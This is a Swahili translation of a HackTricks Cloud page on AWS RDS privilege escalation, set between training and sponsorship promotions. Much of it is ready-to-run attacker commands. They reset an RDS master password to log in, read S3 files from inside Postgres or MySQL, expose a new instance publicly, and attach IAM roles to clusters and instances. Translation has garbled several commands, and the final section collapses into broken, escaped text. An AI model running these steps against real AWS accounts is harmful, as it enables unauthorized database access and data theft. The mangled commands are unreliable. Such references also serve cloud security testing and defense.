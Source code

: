 # AWS - RDS Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa habari zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa idhini hiyo, muhusika anaweza **kurekebisha nenosiri la mtumiaji wa msingi**, na kuingia ndani ya hifadhidata:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Utahitaji kuweza **kuwasiliana na database** (kawaida wanapatikana tu kutoka kwenye mitandao ya ndani).
{% endhint %}

**Athari Inayowezekana:** Pata habari nyeti ndani ya mabadiliko.

### rds-db:connect

Kulingana na [**nyaraka**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye idhini hii anaweza kuunganisha kwenye kifaa cha DB.

### Tumia Vibali vya IAM vya Jukumu la RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** na unapata database iliyoitwa **`rdsadmin`** unajua uko ndani ya **database ya AWS postgresql**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa database hii imekuwa ikitumika kuwaunganisha na huduma yoyote ya AWS nyingine. Unaweza kuangalia hili ukitazama upanuzi uliofungwa:

```sql
SELECT * FROM pg_extension;
```

Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani hii database ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama vile **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuona ikiwa **kituo kina jukumu la IAM limeambatishwa** katika uga wa **`AssociatedRoles`**. Ikiwa lipo, unaweza kudhani kwamba database ilikuwa **imeandaliwa kupata huduma zingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu hilo) unaweza **kudhani** ufikiaji wa ziada ambao database ina.

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma kwa:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Ikiwa ungekuwa na **mikopo ya AWS ya moja kwa moja** unaweza pia kuitumia kufikia data ya S3 na:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **haina haja ya kubadilisha kipengele chochote cha kikundi cha parameta** ili uweze kupata upatikanaji wa S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ikiwa unatekeleza swali **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql tekeleza **`onyesha parameta;`** na ikiwa parameta kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani kuwa database imeandaliwa kupata data za S3.

Pia, ikiwa una ruhusa ya kutekeleza **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa kikundi kina **jukumu lililoambatishwa**, ambalo kawaida hufanya maana ya kupata huduma za AWS).

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma kwa:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililoteuliwa kwa kifaa cha RDS kilichopo**. Hii inaweza kuruhusu mshambuliaji **kupata data nyeti** au kuhariri data ndani ya kifaa hicho.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Athari Kubwa**: Kupata ufikivu wa data nyeti au mabadiliko yasiyoruhusiwa kwenye kifaa cha RDS.\
Tambua kwamba baadhi ya DBs inahitaji mipangilio ya ziada kama vile Mysql, ambayo inahitaji kufafanua jukumu la ARN katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii pekee, mshambuliaji anaweza kuunda **kifaa kipya ndani ya kikundi** kilichopo tayari na kina **jukumu la IAM** limeambatanishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kufichua kifaa kipya cha database kwa mtandao:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
KAZI: Jaribu
{% endhint %}

Mshambuliaji mwenye ruhusa za `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda kipengee kipya cha RDS na jukumu lililobainishwa limeambatanishwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kuhariri data ndani ya kipengee hicho.

{% hint style="warning" %}
Baadhi ya mahitaji ya jukumu/mtindo wa kipengee cha kuambatanisha (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Jukumu linapaswa kuwepo katika akaunti yako.
* Jukumu linapaswa kuwa na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kudai.
* Jina la mtindo wa kipengee na jina la jukumu la IAM lililohusishwa lazima lianze na kipimo cha `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Athari Inayowezekana**: Kupata ufikivu wa data nyeti au kufanya mabadiliko yasiyoruhusiwa kwenye kifaa cha RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililoteuliwa kwenye kifaa cha RDS kilichopo**. Hii inaweza kuruhusu mshambuliaji **kupata ufikivu wa data nyeti** au kufanya mabadiliko kwenye data ndani ya kifaa.

{% hint style="warning" %}
Kifaa cha DB lazima kiwe nje ya kikundi kwa hili
{% endhint %}

{% code overflow="wrap" %}
```
```
{% endcode %}

\`\`\`bash aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name \`\`\` \*\*Matokeo Yanayowezekana\*\*: Upatikanaji wa data nyeti au mabadiliko yasiyoruhusiwa kwenye data katika kifaa cha RDS.

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
